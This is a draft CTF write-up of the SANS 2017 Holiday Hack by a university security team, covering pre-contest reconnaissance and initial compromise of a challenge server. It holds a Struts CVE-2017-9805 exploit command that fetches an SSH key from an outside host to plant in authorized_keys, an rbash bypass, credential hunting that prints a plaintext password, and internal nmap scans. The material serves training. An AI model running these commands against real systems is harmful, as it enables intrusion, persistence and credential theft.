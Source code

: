 #+TITLE: SANS 2017 Holiday Hack Writeup
#+AUTHOR: Vlad Grigorescu
#+EMAIL: vladg@illinois.edu
#+OPTIONS: timestamp:nil num:nil ^:nil toc:2 exports:both
#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="http://www.pirilampo.org/styles/readtheorg/css/htmlize.css"/>
#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="http://www.pirilampo.org/styles/readtheorg/css/readtheorg.css"/>
#+HTML_HEAD: <script src="https://ajax.googleapis.com/ajax/libs/jquery/2.1.3/jquery.min.js"></script>
#+HTML_HEAD: <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.4/js/bootstrap.min.js"></script>
#+HTML_HEAD: <script type="text/javascript" src="js/readtheorg.js"></script>
#+HTML_HEAD: <style>#content{max-width:1200px;}</style>

* TODO
**  Overall approach
Each question should have:
 - [ ] A reference solution
 - [ ] An overview of the thought process and what we tried that led to that solution, *and what we tried that didn't work*
 - [ ] Some other ways that we could've solved it
 - [ ] A peak behind the curtain of how the challenge worked, and perhaps a better defense that would've mitigated the attack
** Introduction
- [ ] Write a paragraph about our approach to the challenge, what everyone did, etc.
- [ ] Write a paragraph about the outline and presentation of the report ("We first lay out the solutions, then we show some other ways that we solved it, then we try to peak behind the curtain of how the challenges worked...")
** Answers
- [ ] Write short answers to each of the questions
- [ ] Link to where they can read more about the answers (maybe link to the "reference solution," and the "going further solution" for each)
** Pre-contest Reconnaissance
- [ ] Update the recon to talk about the changes that they made (hid some stuff in DNS, etc.)
** Terminals and Servers
- [ ] Reference solutions for solving each challenge
- [ ] Thought process for solving each challenge
- [ ] Alternative ways to solve each challenge
  - [ ] EWA Server: Downloaded all the e-mails
  - [ ] EMI Server: Got Meterpreter working
  - [ ] Terminals: Reverse the binaries?
- [ ] Discuss how each challenge was setup
  - [ ] EMI Server: Discuss the alabaster_snowball.py Python script
- [ ] AsciiCinema solution to each terminal?
** Easter Eggs
- [ ] List references and any hidden data we found
  - [ ] The example Hash
  - [ ] nppd robots.txt
  - [ ] LDAP passwords
** Snowball Game
- [ ] Videos to solving each level?
- [ ] Hacking the game?

* Introduction
We're the Security team at the National Center for Supercomputing
Applications, and we worked together on yet another fun SANS Holiday
Hack, like we did last year. Over the past year, we've been surprised
to see how many skills and tricks from the 2016 Holiday Hack we used
for our jobs.

We've done "red-team" work such as code reviews and pen-tests, where
we encountered insufficient PHP input sanitization, development files
being left in production, and services being unintentionally
exposed. Our role in these instances is to find these issues before
someone malicious does, and to help and educate our users to
understand and prevent this from reoccuring. Other work we do is in
architecting defenses and mitigations. How do we secure systems and
services, while being as transparent as possible to end-users?

As we do red-team work, it's useful to try to think like a defender:
"How would *I* have secured this system, and are there any ways around
that?" Similarly, as we do blue-team work, we need to know the methods
and tools that an attacker would use. With that in mind, our approach
to this year's Holiday Hack is to solve the challenges, but also to
try to offer some insight into Alabaster Snowball's defenses. Where
possible, we offer some alternatives that he could've used which
would've been more secure.
* Answers
* Pre-contest Reconnaissance
#+CAPTION: SANS Holiday Hack Challenge December 5th Update
[[./images/sans_holiday_hack_preview.png]]

On December 5th, the SANS Holiday Hack Challenge was updated to tell
us that the 2017 Hack was coming soon, and encouraging us to catch up
on past challenges. The next day, we started doing just that. In
addition to reviewing previous challenges, we also began some
reconnaissance for the 2017 challenge.

Recon is a crucial step of any good penetration test, and is one that
often gets skipped in a "Capture the Flag" type of competition, since
most of the information is provided. Nevertheless, let's see what we
can find. The more information we have ahead of time, the better
prepared we'll be, and the less work we'll have to do during the
actual contest.

Much like how attackers will have indicators of compromise (IOCs)
which allow us to track and follow an individual attacker, the Counter
Hack team also does similar things every year, and will leave behind
some clues.

** Whois Searching
 For example, the 2016 contest made use of the domain
 www.northpolewonderland.com. We can look at publicly available WHOIS
 data for that domain:

 #+BEGIN_SRC sh
 whois northpolewonderland.com | grep Registrant
 #+END_SRC

 #+BEGIN_EXAMPLE
 Registrant Name: Edward Skoudis
 Registrant Organization: Counter Hack
 Registrant Street: 2402 Alexandra Court
 Registrant City: Howell
 Registrant State/Province: New Jersey
 Registrant Postal Code: 07731
 Registrant Country: US
 Registrant Phone: +1.7327511024
 Registrant Phone Ext:
 Registrant Fax: +1.7327511024
 Registrant Fax Ext:
 Registrant Email: edskoudis@yahoo.com
 #+END_EXAMPLE

 There are a few services that allow you to do a "reverse WHOIS"
 search, to search for domains by WHOIS data. For instance to search
 for other domains where "edskoudis@yahoo.com" shows up in the contact
 info: 

 | Domain Name                      | Creation Date | Registrar               |
 |----------------------------------+---------------+-------------------------|
 | northpolechristmastown.com       |    2017-10-19 | GODADDY.COM, LLC        |
 | 1hrctf.com                       |    2016-04-08 | GODADDY.COM, LLC        |
 | 1hrctf.org                       |    2016-04-08 | GODADDY.COM, LLC        |
 | cranbian.org                     |    2016-11-22 | GODADDY.COM, LLC        |
 | hackfestchallenge.com            |    2016-10-20 | GODADDY.COM, LLC        |
 | onehourctf.org                   |    2016-04-08 | GODADDY.COM, LLC        |
 | atnascorp.com                    |    2015-11-10 | GODADDY.COM, LLC        |
 | ginormouselectronicssupplier.com |    2015-12-09 | GODADDY.COM, LLC        |
 | holidayhackchallenge.com         |    2015-11-02 | GODADDY.COM, LLC        |
 | holidayhackchallenge.org         |    2015-11-02 | GODADDY.COM, LLC        |
 | digimeme.org                     |    2013-11-18 | GODADDY.COM, LLC        |
 | syn-pi.org                       |    2013-11-18 | GODADDY.COM, LLC        |
 | pseudovision.net                 |    2010-09-09 | GODADDY.COM, LLC        |
 | counterhack.net                  |    2001-06-22 | NETWORK SOLUTIONS, LLC. |
 | skoudis.com                      |    2001-06-22 | NETWORK SOLUTIONS, LLC. |
 | counterhack.com                  |    2000-05-30 | GODADDY.COM, LLC        |

 This isn't comprehensive, since northpolewonderland.com didn't show up
 in the results, but cranbian.org was another domain from 2016 that
 does show up.

 There are a couple of new entries since the 2016 contest, 1hrctf and
 northpolechristmastown.com. 1hrctf seems unrelated, but it's a good
 bet that northpolechristmastown.com will show up in the 2017
 challenge.

 At this point, we have to proceed with extreme caution. Since the
 contest hasn't started, nothing is in scope yet. Any further digging
 should be as unintrusive as possible.

** DNS Brute Forcing
 Now that we have a domain we're interested in, let's look at DNS:

 #+BEGIN_SRC sh
 dig ANY northpolechristmastown.com
 #+END_SRC

 #+BEGIN_EXAMPLE
 ;; ANSWER SECTION:
 northpolechristmastown.com. 5	IN	TXT	"v=spf1 include:_spf.google.com -all"
 northpolechristmastown.com. 5	IN	MX	30 ALT2.ASPMX.L.GOOGLE.com.
 northpolechristmastown.com. 5	IN	MX	40 ASPMX2.GOOGLEMAIL.com.
 northpolechristmastown.com. 5	IN	MX	20 ALT1.ASPMX.L.GOOGLE.com.
 northpolechristmastown.com. 5	IN	MX	50 ASPMX3.GOOGLEMAIL.com.
 northpolechristmastown.com. 5	IN	MX	10 ASPMX.L.GOOGLE.com.
 northpolechristmastown.com. 5	IN	SOA	ns53.domaincontrol.com. dns.jomax.net. 2017120112 28800 7200 604800 600
 northpolechristmastown.com. 5	IN	NS	ns54.domaincontrol.com.
 northpolechristmastown.com. 5	IN	NS	ns53.domaincontrol.com.
 #+END_EXAMPLE

 From this, we can tell that GMail provides the e-mail for the domain,
 and GoDaddy provides the DNS service. Of note, however, is that there
 are no A or AAAA records, so northpolechristmastown.com does not
 resolve to anything.

 Next, we'll try some Google dorking. Googling for
 site:northpolechristmastown.com reveals
 nppd.northpolechristmastown.com, which is a Sign In page for the
 North Pole Police Department. It looks like nppd uses Google OAuth
 for authentication, and most pages are forbidden with a regular GMail
 account.

 Checking a few other common URLs on nppd, we can find some resources
 that are available, including favicon.ico and robots.txt:
 #+BEGIN_SRC
 User-agent: hk-47
 Disallow: /
 Disallow: /needhelp
 Disallow: /infractions
 Disallow: /community
 Disallow: /about

 User-agent: threepio
 Sand-Crawler-delay: 421

 User-agent: artoo
 Sand-Crawler-delay: 2187
 #+END_SRC

#+CAPTION: North Pole Police Department Logo
[[./images/nppd_star.png]]

 Everything here but /infractions is forbidden. Looking at that page
 returns a list of infractions, such as "Unauthorized access to cookie
 jar" or "Computer infraction: Accessing siblings files without
 permission." We also see some interesting infractions that refer to
 previous Holiday Hacks:

 #+BEGIN_EXAMPLE
	 {
             "date": "2016-12-25T00:00:00",
             "name": "Dr. Who",
             "severity": 5.0,
             "status": "closed",
             "title": "Trying to ruin Christmas"
         },
	 {
             "date": "2015-12-25T00:00:00",
             "name": "Cindy Lou Who",
             "severity": 5.0,
             "status": "closed",
             "title": "Trying to ruin Christmas"
         }
     ],
     "query": "name:Who"
 #+END_EXAMPLE

 Going back to DNS< we can try to enumerate some hosts under the top
 level domain. FuzzDB has a nice list of common DNS name, and we can
 use an nmap script to try to query those:

 #+BEGIN_SRC sh
 $ nmap --script dns-brute --script-args dns-brute.domain=northpolechristmastown.com,dns-brute.threads=1,dns-brute.hostlist=fuzzdb/discovery/dns/dnsmapCommonSubdomains.txt
 #+END_SRC

 #+BEGIN_EXAMPLE
 Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-06 18:54 CST
 Stats: 0:00:06 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
 NSE Timing: About 0.00% done
 Pre-scan script results:
 | dns-brute:
 |   DNS Brute-force hostnames:
 |     intranet.northpolechristmastown.com - 35.196.239.128
 |     files.northpolechristmastown.com - 35.185.43.23
 |     dev.northpolechristmastown.com - 35.185.84.51
 |     admin.northpolechristmastown.com - 35.185.115.185
 |_    mail.northpolechristmastown.com - 35.185.115.185
 #+END_EXAMPLE

A couple of other lists resulted in the following hostnames as well:

#+BEGIN_EXAMPLE
|   DNS Brute-force hostnames:
|     emi.northpolechristmastown.com - 35.185.57.190
|_    ewa.northpolechristmastown.com - 35.185.115.185
#+END_EXAMPLE

** Certificate Transparency Logs

 Next, let's turn our attention to the holidayhackchallenge.com
 domain. Last year, there were some new hosts that appeared under this
 domain (e.g. quest2016.holidayhackchallenge.com). Brute-forcing this
 will likely not get us very far, so let's try a different approach:
 certificate transparency logs. Many certificate authorities maintain
 transparency systems, so that issued certificates can be publicly
 reviewd. Symantec, for instance, has a free tool that will search the
 logs of several certificate authorities:

#+CAPTION: Symantec Crypto Report for holidayhackchallenge.com
[[./images/recon_crypto_report.png]]

Searching for holidayhackchallenge.com reveals the following
certificates that don't look familiar:

 | Common Name                         | Subject Alternate Names (SANs) |             IP |
 |-------------------------------------+--------------------------------+----------------|
 | 2017.holidayhackchallenge.com       | 2017, puzzler2017              |  35.196.67.150 |
 | docker2017.holidayhackchallenge.com |                                | 35.190.163.207 |
 | chat.holidayhackchallenge.com       |                                |  35.196.73.180 |

** Monitoring

None of the 3 servers listed above are currently accessible on port 80
or 443 (HTTP and HTTPS). We setup some monitoring using a free online
service (uptimerobot.com). Every 5 minutes, it would try to connect to
HTTP and HTTPs on the 3 servers listed above. Once the systems become
available, it will text us and post a message to our Slack channel.

Once that happens, the hack is on, and we'll be ready to hit the
ground running.

** Recon Summary

We can use the following indicators to search any clues we're later provided with:

| Indicator                            | Type      | Source                 |
|--------------------------------------+-----------+------------------------|
| northpolechristmastown.com           | Domain    | Reverse WHOIS          |
| holidayhackchallenge.com             | Domain    | 2016 Hack              |
| nppd.northpolechristmastown.com      | FQDN      | Google Search          |
| intranet.northpolechristmastown.com  | FQDN      | DNS Brute Force        |
| files.northpolechristmastown.com     | FQDN      | DNS Brute Force        |
| dev.northpolechristmastown.com       | FQDN      | DNS Brute Force        |
| admin.northpolechristmastown.com     | FQDN      | DNS Brute Force        |
| mail.northpolechristmastown.com      | FQDN      | DNS Brute Force        |
| emi.northpolechristmastown.com       | FQDN      | DNS Brute Force        |
| ewa.northpolechristmastown.com       | FQDN      | DNS Brute Force        |
| 2017.holidayhackchallenge.com        | FQDN      | Cert Transparency      |
| puzzler2017.holidayhackchallenge.com | FQDN      | Cert SAN               |
| docker2017.holidayhackchallenge.com  | FQDN      | Cert Transparency      |
| chat.holidayhackchallenge.com        | FQDN      | Cert Transparency      |
| 35.185.43.23                         | IP        | DNS (files)            |
| 35.185.57.190                        | IP        | DNS (emi)              |
| 35.185.84.51                         | IP        | DNS (dev)              |
| 35.185.115.185                       | IP        | DNS (admin, mail, ewa) |
| 35.190.163.207                       | IP        | DNS (docker2017)       |
| 35.196.67.150                        | IP        | DNS (2017)             |
| 35.196.73.18                         | IP        | DNS (chat)             |
| 35.196.239.128                       | IP        | DNS (intranet)         |
| HK-47 (Star Wars Droid)              | Reference | nppd robots.txt        |
| Artoo (Star Wars Droid)              | Reference | nppd robots.txt        |
| Threepio (Star Wars Droid)           | Reference | nppd robots.txt        |
| Sand-Crawler (Star Wars Vehicle)     | Reference | nppd robots.txt        |
| North Pole Police Department         | Reference | nppd /infractions      |
| Cindy Lou Who (2015 Hack)            | Reference | nppd /infractions      |
| Dr. Who (2016 Hack)                  | Reference | nppd /infractions      |

* Let the Hack Begin!
** Gaining Access to L2S
The SAN cert showed it the was the same as dev.northpolechristmastown.com.

TODO: Justin - how did you figure out it was Struts?

Used the Python tool in the SANS blog post:

#+BEGIN_SRC sh
python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 'mkdir /home/alabaster_snowball/.ssh; cd /home/alabaster_snowball/.ssh; wget http://1.2.3.4/a.key -O authorized_keys; chmod 600 authorized_keys; chmod 700 .'
#+END_SRC

*** Finding the password for alabaster_snowball 

Login using ssh, but explicitly run bash, bypassing the rbash restriction

#+BEGIN_SRC sh
$ ssh alabaster_snowball@dev.northpolechristmastown.com -t bash
#+END_SRC

First, fix the shells path.  We can grab what a normal path looks like from /etc/profile:

#+BEGIN_SRC sh
alabaster_snowball@l2s:~$ grep PATH /etc/profile
  PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
  PATH="/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games"
export PATH
alabaster_snowball@l2s:~$ PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
#+END_SRC

Find all small files owned by alabaster_snowball on the main filesystem and search them for the string password.
Start small and double the filesize each time to keep the process fast.

#+BEGIN_SRC sh
alabaster_snowball@l2s:~$ find / -xdev -type f -user alabaster_snowball -size -1k 2>/dev/null |xargs grep passwor
alabaster_snowball@l2s:~$ find / -xdev -type f -user alabaster_snowball -size -2k 2>/dev/null |xargs grep passwor
alabaster_snowball@l2s:~$ find / -xdev -type f -user alabaster_snowball -size -4k 2>/dev/null |xargs grep passwor
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:            final String password = "stream_unhappy_buy_loss";
#+END_SRC

We could have also searched for the username to find intersting files:

#+BEGIN_SRC sh
    $ time grep alabaster_snowball -r /opt/
    /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:            final String username = "alabaster_snowball";

    real	0m0.355s
    user	0m0.300s
    sys	0m0.052s
#+END_SRC

* Using ripgrep

Ripgrep is a super fast grep replacement written in rust.
It does a better job at filtering binary files, so we can run this command that finishes in about a second:

#+BEGIN_SRC sh
    $ mkdir /tmp/.rg
    $ cd /tmp/.rg
    $ wget https://github.com/BurntSushi/ripgrep/releases/download/0.7.1/ripgrep-0.7.1-x86_64-unknown-linux-musl.tar.gz
    $ tar xvzf ripgrep-0.7.1-x86_64-unknown-linux-musl.tar.gz
    $ find / -type f -xdev -user alabaster_snowball 2>/dev/null | xargs ./ripgrep-0.7.1-x86_64-unknown-linux-musl/rg alabaster -A 1
    /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class
    3:            final String username = "alabaster_snowball";
    4-            final String password = "stream_unhappy_buy_loss";
#+END_SRC

If we didn't think to only look in our files, it only takes 4 seconds to search
the entire filesystem.  After ignoring proc and some debian package info, only
a few lines are output.

#+BEGIN_SRC sh
    $ time ./ripgrep-0.7.1-x86_64-unknown-linux-musl/rg alabaster / --no-messages |grep -v /proc|grep -v deb.debian.org
    /etc/crontab:#@reboot root /usr/bin/nohup /usr/bin/sudo -u alabaster_snowball /opt/apache-tomcat/start_tomcat.sh &
    /etc/subuid:alabaster_snowball:296608:65536
    /etc/passwd:alabaster_snowball:x:1003:1004:Alabaster Snowball,,,:/home/alabaster_snowball:/bin/rbash
    /etc/group:alabaster_snowball:x:1004:
    /etc/subgid:alabaster_snowball:296608:65536
    /etc/systemd/system/tomcat.service:User=alabaster_snowball
    /etc/systemd/system/tomcat.service:Group=alabaster_snowball
    /usr/share/dh-python/dist/cpython3_fallback:alabaster python3-alabaster
    /usr/share/dh-python/dist/cpython2_fallback:alabaster python-alabaster
    /usr/lib/google-cloud-sdk/platform/gsutil/third_party/pyasn1/doc/source/conf.py:# html_theme = 'alabaster'
    /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:            final String username = "alabaster_snowball";

    real	0m4.095s
    user	0m1.864s
    sys	0m18.808s
#+END_SRC

Basic hostname enumeration:

#+BEGIN_SRC 
    $ nmap -sL 10.142.0.*|fgrep '('
    Starting Nmap 7.40 ( https://nmap.org ) at 2017-12-18 02:20 UTC
    Nmap scan report for hhc17-l2s-proxy.c.holidayhack2017.internal (10.142.0.2)
    Nmap scan report for hhc17-apache-struts1.c.holidayhack2017.internal (10.142.0.3)
    Nmap scan report for mail.northpolechristmastown.com (10.142.0.5)
    Nmap scan report for edb.northpolechristmastown.com (10.142.0.6)
    Nmap scan report for hhc17-smb-server.c.holidayhack2017.internal (10.142.0.7)
    Nmap scan report for hhc17-emi.c.holidayhack2017.internal (10.142.0.8)
    Nmap scan report for hhc17-apache-struts2.c.holidayhack2017.internal (10.142.0.11)
    Nmap scan report for eaas.northpolechristmastown.com (10.142.0.13)
    Nmap done: 256 IP addresses (0 hosts up) scanned in 0.01 seconds
#+END_SRC

Even without scanning any ports, we can guess what hhc17-smb-server does!

#+BEGIN_SRC sh
ssh l2s | tee nmap.out
#+END_SRC

#+BEGIN_SRC 
Starting Nmap 7.40 ( https://nmap.org ) at 2017-12-15 02:26 UTC
Nmap scan report for hhc17-l2s-proxy.c.holidayhack2017.internal (10.142.0.2)
Host is up (0.00020s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open  http     nginx 1.10.3
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.10.3
|_http-title: Did not follow redirect to https://hhc17-l2s-proxy.c.holidayhack2017.internal/
443/tcp  open  ssl/http nginx 1.10.3
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3
|_http-title: Toys List
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Issuer: commonName=Let's Encrypt Authority X3/organizationName=Let's Encrypt/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-11-29T12:54:54
| Not valid after:  2018-02-27T12:54:54
| MD5:   90b5 5b73 6e21 e00f 0247 b22d a1ec f953
|_SHA-1: c089 30bf cd61 3a55 ea8f f419 2542 b9b4 9823 8fb1
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
2222/tcp open  ssh      OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for hhc17-apache-struts1.c.holidayhack2017.internal (10.142.0.3)
Host is up (0.00017s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp open  http    nginx 1.10.3
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3
|_http-title: Toys List
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for mail.northpolechristmastown.com (10.142.0.5)
Host is up (0.00021s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ac:cc:7c:b1:cb:56:0b:bc:cd:05:12:36:e7:24:ca (RSA)
|_  256 9f:4e:9a:ee:dc:ef:f4:4b:6d:1b:03:58:bb:5d:a2:87 (ECDSA)
25/tcp   open  smtp    Postfix smtpd
|_smtp-commands: mail.northpolechristmastown.com, PIPELINING, SIZE 10240000, ETRN, AUTH PLAIN LOGIN, AUTH=PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp   open  http    nginx 1.10.3 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/cookie.txt
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
143/tcp  open  imap    Dovecot imapd
|_imap-capabilities: OK ID IDLE LITERAL+ AUTH=PLAIN more have capabilities listed post-login LOGIN-REFERRALS Pre-login AUTH=LOGINA0001 ENABLE SASL-IR IMAP4rev1
2525/tcp open  smtp    Postfix smtpd
|_smtp-commands: mail.northpolechristmastown.com, PIPELINING, SIZE 10240000, ETRN, AUTH PLAIN LOGIN, AUTH=PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
3000/tcp open  http    Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/cookie.txt
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: Host:  mail.northpolechristmastown.com; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for edb.northpolechristmastown.com (10.142.0.6)
Host is up (0.00017s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 33:fb:b7:35:b5:7a:72:6f:06:91:21:ff:e2:3e:86:79 (RSA)
|_  256 70:71:ea:71:cd:83:d8:47:29:ef:6f:69:f3:8a:ed:a2 (ECDSA)
80/tcp   open  http    nginx 1.10.3
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
| http-robots.txt: 1 disallowed entry 
|_/dev
|_http-server-header: nginx/1.10.3
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was http://edb.northpolechristmastown.com/index.html
389/tcp  open  ldap
| fingerprint-strings: 
|   LDAPBindReq: 
|     Version 2 not supported
|   LDAPSearchReq: 
|     supportedLDAPVersion1
|     namingContexts1
|     dc=com0/
|     supportedExtension1
|_    1.3.6.1.4.1.4203.1.11.10
8080/tcp open  http    Werkzeug httpd 0.12.2 (Python 2.7.13)
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
| http-robots.txt: 1 disallowed entry 
|_/dev
|_http-server-header: Werkzeug/0.12.2 Python/2.7.13
|_http-title: Did not follow redirect to http://edb.northpolechristmastown.com/index.html
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port389-TCP:V=7.40%I=7%D=12/15%Time=5A3332D9%P=x86_64-pc-linux-gnu%r(LD
SF:APSearchReq,83,"0s\x02\x01\x07dn\x04\x000j0\x1b\x04\x14supportedLDAPVer
SF:sion1\x03\x04\x0130\x1a\x04\x0enamingContexts1\x08\x04\x06dc=com0/\x04\
SF:x12supportedExtension1\x19\x04\x171\.3\.6\.1\.4\.1\.4203\.1\.11\.10\x0c
SF:\x02\x01\x07e\x07\n\x01\0\x04\0\x04\0")%r(LDAPBindReq,25,"0#\x02\x01\x0
SF:1a\x1e\n\x01\x02\x04\0\x04\x17Version\x202\x20not\x20supported");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for hhc17-emi.c.holidayhack2017.internal (10.142.0.8)
Host is up (0.00081s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hhc17-smb-server
| Issuer: commonName=hhc17-smb-server
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-11-06T13:46:55
| Not valid after:  2018-05-08T13:46:55
| MD5:   092f 018a 083a b87a 8186 ecac da4e 09e2
|_SHA-1: 0a0d f4e6 765f 1818 cd32 4bf2 5212 e8ca ef51 5c38
|_ssl-date: 2017-12-15T02:27:40+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for hhc17-apache-struts2.c.holidayhack2017.internal (10.142.0.11)
Host is up (0.00014s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp open  http    nginx 1.10.3
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3
|_http-title: Toys List
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for eaas.northpolechristmastown.com (10.142.0.13)
Host is up (0.00089s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Index - North Pole Engineering Presents: EaaS!
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hhc17-elf-manufacturing
| Issuer: commonName=hhc17-elf-manufacturing
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-11-23T20:53:55
| Not valid after:  2018-05-25T20:53:55
| MD5:   a711 f240 0c9e a8cd 3be4 81fa fa16 f15a
|_SHA-1: 5728 6c5d 2ec0 6657 629b f9f4 72aa 0b3d 12d4 b3a5
|_ssl-date: 2017-12-15T02:27:40+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
Initiating NSE at 02:27
Completed NSE at 02:27, 0.00s elapsed
